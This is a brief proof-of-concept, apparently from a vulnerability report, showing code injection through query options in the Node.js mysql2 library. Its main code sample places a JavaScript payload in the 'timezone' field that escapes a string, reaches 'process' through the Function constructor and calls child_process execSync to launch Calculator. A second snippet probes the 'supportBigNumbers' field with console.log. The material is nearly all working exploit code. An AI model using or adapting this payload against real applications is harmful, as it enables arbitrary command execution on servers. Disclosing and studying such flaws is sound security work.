 
{sql:`SELECT INDEX_LENGTH FROM information_schema.tables LIMIT 1`, supportBigNumbers:"console.log(1337)"}


connection.query({sql:`SELECT INDEX_LENGTH FROM information_schema.tables LIMIT 1`, supportBigNumbers:"console.log(1337)"},reponseFunction)



```python
const mysql = require('mysql2');
const connection = mysql.createConnection({
  host: '127.0.0.1',
  user: 'root',
  database: 'test',
  password: '123456',
});

let query_data = {
  sql: `SELECT CURDATE();`,
  timezone:
    "');''.constructor.constructor('return process')().mainModule.require('child_process').execSync('open /System/Applications/Calculator.app');console.log('",
};

connection.query(query_data, (err, results) => {
  if (err) throw err;
  console.log(results);
});

connection.end();
```

